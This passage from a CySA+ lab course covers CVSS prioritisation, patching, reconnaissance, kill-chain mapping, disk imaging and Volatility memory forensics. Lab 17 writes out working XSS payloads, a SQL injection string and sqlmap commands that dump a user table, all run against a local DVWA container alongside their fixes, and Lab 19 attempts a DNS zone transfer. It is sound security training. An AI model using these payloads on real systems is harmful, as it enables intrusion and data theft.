- Vuln #1 lives on an **internet-facing payment server** → set Confidentiality Requirement = **High** → modified score stays Critical.
- Vuln #2 lives on an **isolated air-gapped lab VM** → Confidentiality Req = **Low**, Modified Attack Vector = **Physical** → score drops to ~4.0.
- Vuln #3 lives on a **public marketing site** with no PII → score effectively low.

The environmental score is the one you use for **prioritization** — never the raw base score.

#### Step 7 — Build the prioritised list

Save as `/tmp/prio.csv` (open a shell on Killercoda or your laptop):

| Rank | CVE / Vuln | Base | Env | Exploit known? | Asset value | Final priority | |---|---|---|---|---|---|---| | 1 | Public RCE | 9.8 | 9.8 | Yes (Exploit-DB) | Critical (revenue) | **Patch within 24 h** | | 2 | Local privesc | 7.8 | 4.0 | PoC only | Low (air-gapped) | Patch in maintenance window | | 3 | Reflected XSS | 6.1 | 5.0 | Yes | Medium (brand) | Patch next sprint |

#### Step 8 — Handle zero-days and exploitability

**Zero-day** = no patch exists yet. CVSS Base still applies but the Temporal score caps you (Remediation Level = **Unavailable**). Mitigations to recommend until a patch ships:

- Compensating control (Lab 24 isolation)
- Virtual patching at WAF / IPS
- Configuration workaround

Confirm exploit maturity on:

- **CISA KEV** — https://www.cisa.gov/known-exploited-vulnerabilities-catalog
- **Exploit-DB** — https://www.exploit-db.com
- **EPSS** — https://www.first.org/epss (predicted exploit probability)

#### Step 9 — Validation (CySA+ 2.3 — true/false positive/negative)

A scanner finding may be:

- **True positive** — vuln exists and is exploitable (Lab 15 `check`)
- **False positive** — version banner matched but patch backported
- **True negative** — correctly silent
- **False negative** — scanner missed it (the worst kind)

Always re-test high-severity findings manually before committing to a patch SLA.

#### What You Learned

- Score a Base CVSS vector for three realistic vulnerabilities.
- Apply environmental context to demote or promote a score.
- Cross-reference exploit databases for weaponisation status.
- Produce a defensible, business-aware remediation priority list.

---

### Lab 17 — Exploiting and Mitigating XSS and SQL Injection

In this lab you will exploit a reflected XSS, a stored XSS, and a SQL injection on DVWA — then implement the standard mitigations (input validation, output encoding, parameterised queries, prepared statements). This maps to CySA+ 2.4 (Cross-site scripting, Injection flaws) and the **Secure coding best practices** sub-list.

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground





#### Step 1 — Start DVWA

```bash
apt update && apt install -y docker.io sqlmap curl
systemctl start docker
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
sleep 10
```

Browse to `http://127.0.0.1:8080`, login `admin / password`, set **DVWA Security = low**, **Setup → Create / Reset Database**.

Capture your session cookie from the browser (DevTools → Application → Cookies). Save it:

```bash
COOKIE="PHPSESSID=<paste yours>; security=low"
```

#### Step 2 — Reflected XSS (CySA+ "XSS — Reflected")

The DVWA endpoint `vulnerabilities/xss_r/?name=` echoes input straight into HTML.

```bash
curl -s -b "$COOKIE" "http://127.0.0.1:8080/vulnerabilities/xss_r/?name=<script>alert(1)</script>" | grep script
```

You will see your `<script>` tag in the response — the browser would execute it.

**Mitigation (output encoding):** the PHP fix replaces `echo $name` with `echo htmlspecialchars($name, ENT_QUOTES, 'UTF-8')`. View the DVWA **impossible** source to compare.

#### Step 3 — Stored XSS (CySA+ "XSS — Persistent")

`vulnerabilities/xss_s/` posts a guestbook message that is stored in MySQL and rendered to every visitor.

```bash
curl -s -b "$COOKIE" -d "txtName=mal&mtxMessage=<script>alert('stored')</script>&btnSign=Sign+Guestbook" \
  "http://127.0.0.1:8080/vulnerabilities/xss_s/"
curl -s -b "$COOKIE" "http://127.0.0.1:8080/vulnerabilities/xss_s/" | grep -i "stored"
```

Persistent XSS is graver: every viewer is compromised, not just the original target.

**Mitigation:** server-side **input validation** (allow-list of characters), **output encoding** on render, and a **Content-Security-Policy** header that disallows inline scripts.

#### Step 4 — SQL Injection — manual

`vulnerabilities/sqli/?id=` builds a SQL query by concatenation. Classic auth-bypass payload:

```bash
curl -s -b "$COOKIE" "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1%27%20OR%20%271%27=%271&Submit=Submit" | grep -E 'First name|Surname'
```

URL-decoded payload: `1' OR '1'='1`. The query becomes `SELECT … WHERE id='1' OR '1'='1'` and returns every row.

#### Step 5 — SQL Injection — automated with sqlmap

```bash
sqlmap -u "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" --batch --dbs
```

sqlmap will:

1. Detect the injection point and DB engine.
2. Enumerate databases (you should see `dvwa`).
3. Dump tables on request (`--tables -D dvwa`, then `--dump -T users`).

This is exactly the workflow a red-team or scanner-validation analyst follows after seeing a scanner alert.

#### Step 6 — Mitigation: parameterised queries

The **only** correct fix for SQLi is parameterised queries / prepared statements. PHP/PDO example DVWA uses on its **impossible** level:

```php
$stmt = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = ?');
$stmt->execute([$id]);
```

Note: input validation (whitelisting integers, etc.) is a useful **defence in depth**, but never the primary fix — it gets bypassed by encoding tricks.

#### Step 7 — Map the lab to CySA+ 2.4 secure-coding bullets

| Step | Secure coding bullet | |---|---| | 2, 3 | Output encoding | | 3 | Session management (`HttpOnly`, `SameSite` cookies stop XSS-driven session theft) | | 4–6 | Parameterized queries | | 6 | Input validation | | All | Authentication (DVWA login) | | 3 | Data protection (CSP, `Secure` cookies) |

#### Step 8 — Tear down

```bash
docker stop dvwa && docker rm dvwa
```

#### What You Learned

- Trigger and recognise reflected XSS, stored XSS, and SQL injection.
- Use `curl` and `sqlmap` to validate scanner findings end-to-end.
- The correct primary mitigation for each class (encoding, validation, parameterisation).
- The link between the OWASP/DVWA exercises and CySA+ 2.4 secure-coding bullets.

---

### Lab 18 — Patch Management and Hardening

In this lab you will configure automated patching, list every unpatched CVE on the host, validate a patch with a smoke-test rollback path, and re-score with `lynis`. This maps to CySA+ 2.5 (Patching and configuration management — Testing / Implementation / Rollback / Validation, Maintenance windows, Attack surface reduction).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install patching tools

```bash
apt update && apt install -y unattended-upgrades debsecan lynis needrestart
```

#### Step 2 — List every unpatched CVE on the host

```bash
debsecan --suite=$(lsb_release -cs) --format=summary | head -30
debsecan --suite=$(lsb_release -cs) --only-fixed | wc -l
```

`debsecan` reads Debian / Ubuntu security tracker data and prints unfixed CVEs by package. `--only-fixed` shows just the ones that have an available patch — your immediate priority list.

#### Step 3 — Enable unattended security upgrades

```bash
dpkg-reconfigure -plow unattended-upgrades 2>/dev/null || true
cat /etc/apt/apt.conf.d/50unattended-upgrades | head -20
cat /etc/apt/apt.conf.d/20auto-upgrades 2>/dev/null
```

If `20auto-upgrades` does not exist, create it:

```bash
cat > /etc/apt/apt.conf.d/20auto-upgrades <<'EOF'
APT::Periodic::Update-Package-Lists "1";
APT::Periodic::Unattended-Upgrade "1";
EOF
```

This installs security patches every day automatically — the table-stakes **Implementation** control.

#### Step 4 — Test before patching (CySA+ "Testing")

Patches break things. The CySA+ blueprint expects a staging step. Snapshot the relevant config and a smoke test:

```bash
sha256sum /etc/ssh/sshd_config > /tmp/preupdate.hash
ssh -V 2>&1
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:80 2>/dev/null
```

Capture working state. Now apply patches with a dry-run first:

```bash
apt -s upgrade | head -20
```

`-s` simulates. If the simulation lists packages you depend on, schedule a maintenance window first.

#### Step 5 — Apply the patch (CySA+ "Implementation")

```bash
DEBIAN_FRONTEND=noninteractive apt -y upgrade
```

Inside a real maintenance window you would post-notify stakeholders, then move on.

#### Step 6 — Validate the patch (CySA+ "Validation")

```bash
debsecan --suite=$(lsb_release -cs) --only-fixed | wc -l   # should drop
needrestart -r l                                            # services needing restart
ssh -V; curl -s -o /dev/null -w "%{http_code}\n" http://localhost:80 2>/dev/null
sha256sum /etc/ssh/sshd_config
diff <(sha256sum /etc/ssh/sshd_config) /tmp/preupdate.hash || echo "config changed"
```

If a critical service is broken, you trigger the rollback plan.

#### Step 7 — Rollback plan (CySA+ "Rollback")

A real rollback strategy:

| Layer | Mechanism | |---|---| | Single binary | `apt install <pkg>=<old-version>` | | Config drift | restore from git (Lab 19 of N+ analogue) or backup | | Full VM | revert to snapshot | | Container | redeploy previous image tag | | Cloud / AMI | swap launch template / deployment |

Test the rollback path **before** prod — a rollback you have never run is a rollback that does not work.

#### Step 8 — Attack surface reduction (CySA+ 2.5)

A patch closes a single vuln. Reducing the attack surface eliminates entire classes:

```bash
apt list --installed 2>/dev/null | wc -l
systemctl list-unit-files --state=enabled --no-pager | head
systemctl disable --now cups 2>/dev/null
apt purge -y telnet rsh-client 2>/dev/null
```

Each removed package or disabled service is one less thing to patch.

#### Step 9 — Re-score with lynis (CySA+ "Compensating control")

```bash
lynis audit system --quick --quiet | tail -20
grep "Hardening index" /var/log/lynis.log
```

Compare against the score from Lab 2. The hardening index should improve after patches + service disablement.

#### Step 10 — Maintenance window playbook

A template you can drop into Lab 25:

1. Notify stakeholders T-7 days, T-1 day, T-1 hour.
2. Snapshot / backup at T-30 min.
3. Apply patches during the window.
4. Run smoke tests.
5. If any test fails → rollback within 15 min, schedule re-attempt.
6. Send the "all clear" with the new patch level and hardening index.

#### What You Learned

- List unpatched CVEs with `debsecan` and prioritise.
- Enable Ubuntu **unattended security upgrades**.
- Run the Test → Implement → Validate → Rollback sequence.
- Reduce attack surface by removing unused packages and services.
- Use `lynis` to demonstrate a measurable hardening improvement.

---

### Lab 19 — Attack Surface Reconnaissance

In this lab you will enumerate the external attack surface of a target organisation using **theHarvester** and **recon-ng**, plus free web services like crt.sh, DNSDumpster, and Shodan. This maps to CySA+ 2.5 (Attack surface management — Edge discovery, Passive discovery, Penetration testing, Bug bounty) and 2.2 (Multipurpose — Recon-ng).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

> **Scope:** Only enumerate domains you own or have written permission for. The example uses `example.com` (IANA reserved).

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install tools

```bash
apt update && apt install -y theharvester recon-ng curl whois dnsutils jq
```

#### Step 2 — Passive discovery with theHarvester

```bash
theHarvester -d example.com -b duckduckgo,crtsh,bing -l 100
```

`-b` selects sources. Free, passive sources usable without keys: `crtsh`, `duckduckgo`, `bing`, `anubis`, `hackertarget`. Output includes:

- Subdomains
- Email addresses
- Linked IPs

#### Step 3 — Certificate-transparency search (edge discovery)

Certificate Transparency logs are the **single best** free subdomain discovery source — every TLS cert ever issued is public.

```bash
curl -s 'https://crt.sh/?q=%25.example.com&output=json' | jq -r '.[].name_value' | sort -u | head
```

Subdomains nobody links to in the navigation (`vpn.`, `admin.`, `dev.`, `staging.`) often show up here.

#### Step 4 — Recon-ng modular framework

```bash
recon-ng
```

Inside the recon-ng shell:

```
[recon-ng][default] > workspaces create cysa_lab19
[recon-ng][cysa_lab19] > marketplace search hackertarget
[recon-ng][cysa_lab19] > marketplace install recon/domains-hosts/hackertarget
[recon-ng][cysa_lab19] > modules load recon/domains-hosts/hackertarget
[recon-ng][cysa_lab19][hackertarget] > options set SOURCE example.com
[recon-ng][cysa_lab19][hackertarget] > run
[recon-ng][cysa_lab19][hackertarget] > show hosts
```

`hackertarget` is keyless and free. Other useful modules:

- `recon/domains-hosts/hackertarget`
- `recon/companies-contacts/whois_pocs`
- `recon/hosts-hosts/resolve`
- `reporting/csv` / `reporting/html`

Export the dataset:

```
[recon-ng][cysa_lab19] > modules load reporting/csv
[recon-ng][cysa_lab19][csv] > options set FILENAME /tmp/recon.csv
[recon-ng][cysa_lab19][csv] > run
```

#### Step 5 — DNS enumeration

```bash
for sub in www mail vpn admin api dev staging test mx ftp; do
  ip=$(dig +short $sub.example.com)
  [ -n "$ip" ] && echo "$sub.example.com -> $ip"
done

dig axfr @ns.example.com example.com 2>/dev/null
```

The second command attempts a zone transfer. A successful AXFR from an external client is a misconfiguration — instant report finding.

#### Step 6 — Shodan-style passive port discovery (browser)

Free tier (sign up required):

- **Shodan** — https://www.shodan.io/search?query=org%3A%22Example+Inc%22
- **Censys** — https://search.censys.io

Search by organisation name, ASN, or domain. You will see open ports, banner versions, certs, and geolocation — all without sending a packet from your IP.

#### Step 7 — Inventory the findings

```bash
mkdir -p /tmp/lab19
cat > /tmp/lab19/inventory.md <<EOF
# External attack surface: example.com (snapshot $(date -I))

| Asset | Port | Service | Source | Risk note |
|-------|------|---------|--------|-----------|
| www.example.com | 443 | nginx | crt.sh, dig | TLS expiring soon |
| api.example.com | 443 | api gateway | crt.sh | Public, monitor |
| admin.example.com | 8443 | admin panel | crt.sh | Should be VPN-only |
EOF
cat /tmp/lab19/inventory.md
```

This is the deliverable a SOC analyst hands to the vulnerability-management team.

#### Step 8 — Map the lab to CySA+ 2.5 bullet points

| Lab step | CySA+ 2.5 vocab | |---|---| | theHarvester / crt.sh / DNS | **Edge discovery**, **Passive discovery** | | Recon-ng hackertarget | **Passive discovery** | | Shodan / Censys | **Passive discovery** | | Nmap (Lab 11) on these hosts | **Security controls testing** | | Metasploit (Lab 15) `check` | **Penetration testing**, **Adversary emulation** | | Public program | **Bug bounty** |

#### What You Learned

- Use theHarvester and crt.sh for passive subdomain discovery.
- Drive Recon-ng's workspace/module model and export reports.
- Combine DNS, certificate transparency, and Shodan-style services into a single external inventory.
- Map enumeration techniques to CySA+ attack-surface-management vocabulary.

---

## Topic 3: Incident Response and Management
*CompTIA CySA+ CS0-003 exam weighting: 20%. Hands-on Labs 20–25.*

### Lab 20 — Cyber Kill Chain and ATT&CK Mapping

In this lab you will walk a single intrusion scenario through Lockheed Martin's **Cyber Kill Chain**, then map the same scenario to the **MITRE ATT&CK Navigator** and the **Diamond Model**. This maps to CySA+ 3.1 (Cyber kill chains, Diamond Model of Intrusion Analysis, MITRE ATT&CK, OSSTMM, OWASP Testing Guide).

This lab runs in the browser plus a small markdown file — no shell required.

**Environment:** Web — MITRE ATT&CK Navigator





#### Step 1 — The scenario

> A finance department user opens an invoice attachment from `alerts@secur1ty-paypal.com` (Lab 8). A macro spawns PowerShell, which downloads a second stage from `185.220.101.45`. The second stage establishes a 60-second heartbeat to the same IP. Over the next 48 hours the attacker dumps credentials with Mimikatz, pivots via SMB to a file server, and exfiltrates 1 GB over HTTPS to a Dropbox-style domain.

#### Step 2 — Map to the 7 stages of the Lockheed Cyber Kill Chain

| Stage | What happened | IOC / artefact | |---|---|---| | 1. Reconnaissance | Attacker harvested LinkedIn finance contacts | OSINT (Lab 19) | | 2. Weaponisation | Excel macro + downloader built | Hash of `.xlsm` | | 3. Delivery | Phishing email | From / Return-Path mismatch (Lab 8) | | 4. Exploitation | Macro runs PowerShell on click | Office → PowerShell parent/child | | 5. Installation | Second stage persists via scheduled task | New entry in `schtasks` | | 6. Command & Control | 60 s beacon to 185.220.101.45 | Beaconing pattern (Lab 4) | | 7. Actions on Objectives | Credential theft + 1 GB exfil | Mimikatz IOCs, traffic spike |

Pick **one stage** as the earliest detection opportunity — that becomes the "earliest kill" recommendation in the incident report (Lab 27).

#### Step 3 — Open MITRE ATT&CK Navigator

Browser: **https://mitre-attack.github.io/attack-navigator/**

Click **Create New Layer → Enterprise**.

#### Step 4 — Tag the techniques used in the scenario

In the search box, find and **select** each of these. For each, click the technique → set **Score = 1** and **Comment = scenario step**:

| ATT&CK ID | Technique | Scenario step | |---|---|---| | T1566.001 | Phishing: Spearphishing Attachment | 3. Delivery | | T1204.002 | User Execution: Malicious File | 4. Exploitation | | T1059.001 | Command and Scripting Interpreter: PowerShell | 4. Exploitation | | T1105 | Ingress Tool Transfer | 4–5 | | T1053.005 | Scheduled Task/Job: Windows | 5. Installation | | T1071.001 | App Layer Protocol: Web | 6. C2 | | T1003.001 | OS Credential Dumping: LSASS Memory | 7. Actions | | T1021.002 | Remote Services: SMB | 7. Lateral Movement | | T1041 | Exfiltration Over C2 Channel | 7. Exfil |

Use the **Background colour** scale to heat-map the layer. Export with **Download as JSON** or **SVG** and attach to the incident report.

#### Step 5 — Diamond Model of Intrusion Analysis

Fill in the four corners of the diamond:

```
                  ┌────────────┐
                  │ Adversary  │  TA505-like cluster (TTPs match)
                  └────────────┘
                        △
        ┌───────────────┴────────────────┐
        │                                │
┌───────┴───────┐               ┌────────┴───────┐
│ Capability    │               │ Infrastructure │
│ Macro+PoShell │               │ 185.220.101.45 │
│ Mimikatz      │               │ paypa1-domain   │
└───────────────┘               └────────────────┘
        │                                │
        └───────────────┬────────────────┘
                        ▽
                  ┌────────────┐
                  │   Victim   │  Finance dept, 1 user, file server
                  └────────────┘
```

Each pivot (Adversary, Capability, Infrastructure, Victim) is a query you can run against your SIEM and threat-intel sources.

#### Step 6 — Compare frameworks

| Framework | Strength | When to use | |---|---|---| | Cyber Kill Chain | Simple 7-stage narrative | Exec briefing | | MITRE ATT&CK | Rich TTP taxonomy with detections | Hunt + detect engineering | | Diamond Model | Pivots across actor/infra/victim | Threat-intel analysis | | OWASP Testing Guide | Web app pentest methodology | App-sec engagements | | OSSTMM | Holistic security testing methodology | Comprehensive audits |

CySA+ expects you to know what each framework is for — pick the right one for the audience.

#### Step 7 — Save artefacts

```bash
mkdir -p /tmp/lab20
echo "{ /* exported ATT&CK Navigator JSON pasted here */ }" > /tmp/lab20/attack_layer.json
```

These artefacts feed into the incident report deliverable (Lab 27).

#### What You Learned

- Walk a realistic intrusion through the 7-stage Cyber Kill Chain.
- Build an ATT&CK Navigator layer by mapping each scenario step to a technique ID.
- Apply the Diamond Model to enumerate pivot opportunities.
- Choose the right framework for the analytic question at hand.

---

### Lab 21 — Evidence Acquisition and Chain of Custody

In this lab you will perform a forensically sound image of a "compromised" disk and memory, generate hashes, fill in a chain-of-custody form, and verify integrity. This maps to CySA+ 3.2 (Evidence acquisitions — Chain of custody, Validating data integrity, Preservation, Legal hold).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground







#### Step 1 — Why order matters: order of volatility

Before touching the system, recall the volatility ladder (most-to-least volatile):

1. CPU registers, cache
2. Routing table, ARP cache, process table, kernel statistics, memory
3. Temporary file systems / swap
4. Disk
5. Remote logs
6. Backups / archival media

Capture in that order. Skip ahead and you destroy evidence you cannot recover.

#### Step 2 — Create a controlled "evidence" target

```bash
mkdir -p /tmp/evidence /tmp/case_001
dd if=/dev/zero of=/tmp/evidence/suspect.img bs=1M count=8 2>/dev/null
mkfs.ext4 -F /tmp/evidence/suspect.img >/dev/null
mkdir -p /mnt/suspect
mount -o loop /tmp/evidence/suspect.img /mnt/suspect
echo "stolen_creds: admin/p@ssw0rd" > /mnt/suspect/secret.txt
echo "C2: 185.220.101.45" > /mnt/suspect/c2.txt
umount /mnt/suspect
```

You now have an 8 MB "disk" with two artefacts.

#### Step 3 — Hash the source BEFORE imaging (preservation)

```bash
sha256sum /tmp/evidence/suspect.img | tee /tmp/case_001/source.sha256
md5sum    /tmp/evidence/suspect.img | tee -a /tmp/case_001/source.md5
```

Both hashes are recorded — MD5 for legacy compatibility, SHA-256 for cryptographic strength.

#### Step 4 — Make a bit-for-bit image (acquisition)

```bash
dd if=/tmp/evidence/suspect.img of=/tmp/case_001/image.dd bs=1M status=progress conv=noerror,sync
```

Real engagements use a hardware write-blocker plus `dcfldd` or `dc3dd` (FTK Imager on Windows) — they hash on-the-fly and log every read error. The principle is the same: never write to the source.

#### Step 5 — Verify integrity (validating data integrity)

```bash
sha256sum /tmp/case_001/image.dd | tee /tmp/case_001/image.sha256
diff /tmp/case_001/source.sha256 <(sed 's|image.dd|/tmp/evidence/suspect.img|' /tmp/case_001/image.sha256) \
  && echo "INTEGRITY OK" || echo "INTEGRITY FAILED"
```

If the hashes match, the image is admissible. If not, you start over.

#### Step 6 — Capture volatile memory (memory acquisition)

In Linux the standard free tools are:

```bash
apt install -y avml 2>/dev/null || echo "avml may need manual install"
# AVML is Microsoft's free Linux memory acquirer:
# wget https://github.com/microsoft/avml/releases/latest/download/avml
# chmod +x ./avml && ./avml /tmp/case_001/memory.lime
```

On Windows the equivalent free tools are **WinPMEM**, **DumpIt**, or **Magnet RAM Capture**. Always hash the resulting `.lime` / `.raw` file the same way as the disk image.

#### Step 7 — Build the chain-of-custody form

```bash
cat > /tmp/case_001/chain_of_custody.md <<EOF
# Chain of Custody — Case 001

| Item | Value |
|------|-------|
| Case ID | CASE-001 |
| Incident date | $(date -I) |
| Evidence ID | EV-001 |
| Description | 8 MB disk image, ext4, mounted /mnt/suspect at acquisition |
| Acquirer | Analyst A. Chan |
| Acquisition method | dd (bit-for-bit) |
| Source SHA-256 | $(awk '{print $1}' /tmp/case_001/source.sha256) |
| Image  SHA-256 | $(awk '{print $1}' /tmp/case_001/image.sha256) |
| Integrity | $(diff -q /tmp/case_001/source.sha256 <(sed 's|image.dd|/tmp/evidence/suspect.img|' /tmp/case_001/image.sha256) >/dev/null && echo MATCH || echo MISMATCH) |
| Storage location | Locked evidence safe, drawer 3 |

## Transfer log
| Datetime | From | To | Reason | Signature |
|----------|------|----|--------|-----------|
| $(date -Iseconds) | Analyst A. Chan | Evidence Locker | Initial seal | _________ |
EOF
cat /tmp/case_001/chain_of_custody.md
```

Every transfer of the evidence (analyst → locker → court) gets a new row. A gap in the log is enough to throw out the evidence in court.

#### Step 8 — Legal hold

A **legal hold** suspends normal retention policies for evidence relevant to litigation or regulatory request. Once issued by legal counsel:

- No deletion, no rotation, no overwriting.
- All custodians notified in writing.
- Original media stored in a sealed evidence bag with the tag from Step 7.

In Linux that means moving the image to a write-protected store:

```bash
chmod -w /tmp/case_001/image.dd
ls -l /tmp/case_001/
```

#### Step 9 — Working copies

You analyse the **working copy**, never the original.

```bash
cp /tmp/case_001/image.dd /tmp/case_001/working_copy.dd
sha256sum /tmp/case_001/working_copy.dd
```

If your analysis corrupts the working copy, you can always recreate it from the sealed original.

#### What You Learned

- The order of volatility and why it dictates acquisition sequence.
- How to image a disk with `dd` and verify with SHA-256.
- Where Linux/Windows memory acquisition tools live.
- How to fill a chain-of-custody form and apply a legal hold.

---

### Lab 22 — Memory Forensics with Volatility

In this lab you will analyse a memory image with **Volatility 3** — listing processes, network connections, command lines, and pulling DLLs / injected code. Memory forensics finds artefacts that never touched disk (Cobalt Strike beacons, in-memory shellcode). This maps to CySA+ 3.2 (Data and log analysis, Evidence acquisitions — Preservation).

Run on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install Volatility 3

```bash
apt update && apt install -y python3-pip git
pip3 install volatility3 --break-system-packages
vol -h | head
```

Volatility 3 is a complete rewrite in Python 3 with built-in symbol management — no manual profile required.

#### Step 2 — Obtain a sample memory image

Public training images are large but free. Two reliable sources:

- **Volatility Foundation sample memory** — https://github.com/volatilityfoundation/volatility/wiki/Memory-Samples
- **MalwareTech BlueKeep sample** — search for `cridex.vmem` / `xp-laptop-2005.img`

```bash
# Example download (~30 MB):
wget -q -O /tmp/cridex.vmem \
  https://downloads.volatilityfoundation.org/releases/Tutorial/cridex.vmem 2>/dev/null \
  || echo "Mirror may be down — provide your own image"
ls -lh /tmp/cridex.vmem 2>/dev/null
```

If the mirror is unavailable, any `.vmem` / `.lime` / `.raw` image works — including one captured in Lab 21.

#### Step 3 — Identify the image

```bash
vol -f /tmp/cridex.vmem windows.info
```

Output identifies the OS, build, and addresses Volatility will use for the analysis.

#### Step 4 — List processes

```bash
vol -f /tmp/cridex.vmem windows.pslist
vol -f /tmp/cridex.vmem windows.pstree
```

Look for:

- Orphans (PPID = 0 or pointing to a dead parent)
- Office app spawning `cmd.exe` / `powershell.exe`
- Multiple `svchost.exe` outside `services.exe`

#### Step 5 — Hunt hidden processes

```bash
vol -f /tmp/cridex.vmem windows.psscan       # scans pool, finds unlinked PIDs
vol -f /tmp/cridex.vmem windows.psxview      # diff between listing methods
```

A row that appears in `psscan` but not `pslist` is a rootkit-hidden process.

#### Step 6 — Recover command lines

```bash
vol -f /tmp/cridex.vmem windows.cmdline
```

The command line of a malicious process often contains the C2 URL, base64 payload, or `-NoProfile -EncodedCommand …` — your fastest IOC.

#### Step 7 — Network connections at time of capture

```bash
vol -f /tmp/cridex.vmem windows.netscan
```

Maps PID → local IP:port → remote IP:port. Cross-reference remote IPs against threat-intel (Lab 10).

#### Step 8 — DLL injection / code injection

```bash
vol -f /tmp/cridex.vmem windows.dlllist --pid <SUSPECT_PID>
vol -f /tmp/cridex.vmem windows.malfind
```

`malfind` looks for memory regions marked **RWX** with PE headers or shellcode — a textbook process-injection indicator.

#### Step 9 — Dump a suspect process and triage it

```bash
mkdir -p /tmp/dump
vol -f /tmp/cridex.vmem -o /tmp/dump windows.dumpfiles --pid <SUSPECT_PID>
ls /tmp/dump | head
# Then run the file through Lab 9 (strings, yara, VirusTotal hash)
sha256sum /tmp/dump/*
```

You now have a static artefact for AV/sandbox submission — derived from RAM only.

#### Step 10 — Linux memory images

For Lab 21's AVML output, the equivalent plugins live under `linux.*`:

```bash
vol -f /tmp/case_001/memory.lime linux.pslist
vol -f /tmp/case_001/memory.lime linux.bash    # recover shell history
```

`linux.bash` is gold for incident response — it shows the attacker's typed commands.

#### What You Learned

- Install and orient Volatility 3 against a memory image.
- Enumerate processes, hidden processes, command lines, and live connections.
- Detect injected code with `malfind`.
- Dump processes to disk and feed them into Lab 9's static triage workflow.

---

### Lab 23 — Log Analysis for Incident Response

